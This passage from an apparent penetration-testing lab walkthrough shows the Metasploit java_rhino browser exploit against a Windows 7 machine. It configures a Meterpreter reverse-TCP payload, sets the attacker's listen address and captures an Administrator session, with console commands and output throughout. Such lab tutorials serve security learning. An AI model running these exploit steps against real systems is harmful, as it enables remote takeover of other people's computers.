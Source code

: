 	
	Payload options (windows/meterpreter/reverse_tcp):
	
	   Name      Current Setting  Required  Description
	   ----      ---------------  --------  -----------
	   EXITFUNC  process          yes       Exit technique (Accepted: , , seh, thread, process, none)
	   LHOST                      yes       The listen address
	   LPORT     4444             yes       The listen port
	
	
	Exploit target:
	
	   Id  Name
	   --  ----
	   1   Windows Universal
	
	
	msf exploit(java_rhino) > 

Notice there is a new section for the payload options. Let's set the **LHOST** option:

	msf exploit(java_rhino) > set LHOST 192.168.1.30
	LHOST => 192.168.1.30

Now let's start the exploit:

	msf exploit(java_rhino) > exploit
	[*] Exploit running as background job.
	
	[*] Started reverse handler on 192.168.1.30:4444 
	msf exploit(java_rhino) > [*] Using URL: http://192.168.1.30:80/
	[*] Server started.

### Connect to the Exploit from Windows 7
Now let's go to the Windows 7 machine and from Internet Explorer point to our Kali Machine:

![win7-ie-visit-kali-mac](https://googledrive.com/host/0B4vYKT_-8g4IWE9kS2hMMmFuXzg/ms-java-rhino/win7-ie-visit-kali-mac.png)

and just leave the browser there. Then in the ***metasploit*** console you will see the following:

	[*] 192.168.1.20     java_rhino - Java Applet Rhino Script Engine Remote Code Execution handling request
	[*] 192.168.1.20     java_rhino - Sending Applet.jar
	[*] 192.168.1.20     java_rhino - Sending Applet.jar
	[*] Sending stage (885806 bytes) to 192.168.1.20
	[*] Meterpreter session 1 opened (192.168.1.30:4444 -> 192.168.1.20:49173) at 2015-11-26 13:47:20 -0500
	
### Get Interactive Shell on the Windows 7 Machine
At this point you will see a session connected to the Windows 7 Machine:

	msf exploit(java_rhino) > sessions -i
	
	Active sessions
	===============
	
	  Id  Type                   Information                            Connection
	  --  ----                   -----------                            ----------
	  1   meterpreter x86/win32  WIN7\Administrator @ WIN7  192.168.1.30:4444 -> 192.168.1.20:49173 (192.168.1.20)
	